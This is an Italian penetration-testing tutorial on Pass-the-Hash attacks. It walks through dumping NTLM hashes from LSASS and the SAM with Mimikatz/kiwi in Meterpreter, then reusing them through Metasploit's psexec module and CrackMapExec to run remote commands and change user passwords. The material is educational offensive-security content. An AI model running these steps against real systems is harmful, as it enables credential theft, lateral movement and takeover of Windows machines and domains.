# Pass-the-Hash Attacks

Il Pass-the-Hash (PtH) è una tecnica che consente di autenticarsi su un sistema remoto senza conoscere la password in chiaro, utilizzando direttamente l’hash NTLM dell’utente. È un metodo estremamente potente nel contesto del penetration testing perché **bypassa la necessità di conoscere la password vera e propria**, e permette comunque di accedere a servizi remoti che accettano l’autenticazione NTLM (come SMB o WinRM).

La capacità di catturare un hash NTLM è quindi fondamentale: esso rappresenta la “firma” digitale della password, e può essere utilizzato per ottenere l’accesso a risorse di rete, spostarsi lateralmente all'interno dell'infrastruttura e perfino compromettere interi domini Active Directory. A differenza delle password in chiaro, **gli hash NTLM spesso non vengono ruotati regolarmente** e, una volta ottenuti, **rimangono validi per lunghi periodi**, specialmente se associati ad account amministrativi.

## Estrazione credenziali con Kiwi/Mimikatz

Carica il modulo `kiwi` nella sessione Meterpreter attiva (ora migrata in LSASS):

`load kiwi`

Il modulo `kiwi` integra tutte le funzionalità di **Mimikatz**, un tool potentissimo che consente di:

- Estrare credenziali in chiaro dalla memoria
- Dumpare hash NTLM e LM
- Fare attacchi pass-the-hash
- Interagire con i token di logon e impersonare utenti
- Rubare ticket Kerberos (Kerberoasting)

Per dumpare gli account locali dalla SAM (Security Account Manager):

`lsa_dump_sam`

La SAM è un database locale di Windows che contiene nomi utente, SID e hash delle password. Si trova nel filesystem in:

`C:\Windows\System32\config\SAM`

ed è accessibile **solo da un processo con privilegi SYSTEM o Kernel**.

Per ottenere direttamente LM e NTLM hash degli utenti locali:

`hashdump`

L’output ti mostra SID, LM Hash e NTLM Hash. L’hash NTLM è quello da usare per gli attacchi Pass-the-Hash. Si trova **prima del secondo “:”** e rappresenta l’identificativo univoco della password (in forma cifrata).

## Riutilizzo dell’hash – PsExec con Metasploit

Metti la sessione Meterpreter in background con `background` o `CTRL+Z`.

Poi usa:

`use exploit/windows/smb/psexec`

PsExec è un metodo legittimo utilizzato dagli amministratori Windows per eseguire programmi su macchine remote via SMB. Il modulo Metasploit ne replica il comportamento per ottenere una nuova shell con privilegi elevati.

Configura:

`set RHOST <IP_target>` <br>
`set SMBUser <utente_della_SAM>` <br>
`set SMBPass <password_in_chiaro>` # oppure l’hash NTLM <br>   
`set LPORT <porta_alternativa>` # diversa dalla sessione attuale <br>      
`set target Native\ upload` <br>

È importante usare una `LPORT` diversa da quella precedente per permettere a Metasploit di aprire una seconda sessione parallela.

Se stai usando l’hash NTLM, puoi specificarlo direttamente in `SMBPass`. L’intero hash può includere LM:NTLM, ma è sufficiente il solo hash NTLM.

## Alternativa con CrackMapExec

Un metodo più veloce e silenzioso è usare `crackmapexec`:

`crackmapexec smb <IP> -u <username> -p "<password>"` 

Oppure, se usi l’hash NTLM:

`crackmapexec smb <IP> -u <username> -H <NTLM_hash>`

Il comando tenterà l’autenticazione SMB. Se l’hash funziona, verrà mostrato l’indicatore:

`[Pwn3d!]`

Per eseguire comandi remoti (es. `whoami`, `ipconfig`, ecc.):

`crackmapexec smb <IP> -u <username> -H <hash> -x "whoami"`

Puoi anche cambiare la password di un utente con:

`crackmapexec smb <IP> -u <username> -H <hash> -x "net user <user> <newPassword>"`

Oppure ottenere la lista utenti della macchina:

`crackmapexec smb <IP> -u <username> -H <hash> -x "net user"`

Questi comandi ti consentono di ottenere pieno controllo operativo sul sistema target usando esclusivamente l’hash NTLM.
